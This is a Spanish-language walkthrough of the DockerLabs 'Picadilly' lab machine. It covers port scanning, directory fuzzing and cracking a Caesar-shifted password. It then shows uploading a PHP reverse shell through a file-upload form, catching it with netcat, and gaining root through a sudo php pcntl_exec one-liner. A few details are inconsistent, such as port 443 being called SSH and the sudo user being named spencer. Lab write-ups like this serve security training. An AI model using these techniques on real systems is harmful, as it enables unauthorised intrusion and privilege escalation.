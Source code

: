 ```yaml
---
title: Picadilly - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | kaikoperez        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/857b077a-8e60-4fab-bc4b-2011e3d219dd)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `443` (SSH)
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p80,443 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/454db12c-80e6-4883-b45e-bd5ebedde5cd)

# Exploración Web
En el puerto `80`, observamos que hay un archivo `backup.txt`.

![image](https://github.com/user-attachments/assets/c223e6da-3c42-4ce9-8f6c-135dac67d123)

Al revisar su contenido vemos lo siguiente.(Explica que es).

```txt
/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////
```

Por lo que que se ve pone que esa encriptado en el cifrado cesar. (Explica que era el cifrado Cesar brevemente).Si intentamos averiguar lo que pone podemos ver que la que mas se asemeja es `easycrazy`.

![image](https://github.com/user-attachments/assets/b267e0da-c76c-4e08-b998-d81d1639215d)

Tenemos eso pero no sabemos como usarlo asi que haremos fuzzing, por si exite algun directorio mas.

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/4124f3fa-0b88-4c21-896b-45ff077a1736)

Viendo el escaneo del principio vemos que el puerto 443 responde al nombre de host: `picadilly.lab` , con lo que vamos a añadirlo al `/etc/hosts` y analizar que contiene esa pagina.

![image](https://github.com/user-attachments/assets/fc002df1-e9f5-4c21-be95-0544d4f4068c)

Al explorar la pagina del puerto `443` vemos a primera vista que hay un apartado de subida de archivos y una ruta dentro del codigo fuente de la pagina llamado `uploads.php`, asi que empezaremos por ahi.

## Intrusión en la Máquina
Lo primero que haremos sera subir una reverseshell por `php`, ya que hemos visto  la pagina de subida su extension es `uplodas.php` suponemos que la pagina responde  `php.

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Nos ponemos a escuchar por netcat en mi caso por el 4444

```bash 
nc -lvnp 4444
```

### Pasos para Cargar la Reverseshell

1. **Preparar la Reverseshell**: Creamos un archivo de reverseshell en nuestro sistema local utilizando el código disponible en la ruta mencionada anteriormente.
2. **Subir el Archivo**: pasamos el archivo para subir al apartado de subida de la pagina.
3. **Ejecutar la Reverseshell**: Una vez que el archivo esté en el servidor, lo ejecutaremos para establecer la conexión.

Luego, accedemos a la ruta de la página web donde hemos cargado la reverseshell:

![image](https://github.com/user-attachments/assets/4f49a3e9-f08d-4bdb-8af7-ea29c73bed4a)

Y ya tendriamos acceso a la maquina.

![image](https://github.com/user-attachments/assets/ec688504-bc7e-4c03-8809-5fa9760664b2)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Istrucion usuario www-data.

Como antes habiamos encontrado una contraeña llamada `easycrazy` vamos a ver si es de algun usuario del sistema. Para ello usaremos `ls -l /home` y vemos que el usuario es `mateo`.

![image](https://github.com/user-attachments/assets/b703bddc-c886-4dbb-9877-84bbd57f3cf0)

Si accedemosa ese usuario vemos que la conexion se ha establecido con esa contraseña.

![image](https://github.com/user-attachments/assets/01465b34-8ce9-469b-8910-b2c940c1ea72)

# Escalada de privilegios

Al ejecutar `sudo -l`, notamos que spencer tiene permisos para ejecutar `php` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/e3dbe429-7ac7-4042-a694-18af209e67b1)

Por lo que generaremos una shell a traves de php y entraremos.

```bash
sudo /usr/bin/php -r "pcntl_exec('/bin/sh', ['-p']);"
```

Ya somos root 

![image](https://github.com/user-attachments/assets/f15c6502-638b-45a7-a34e-555f458897ef)
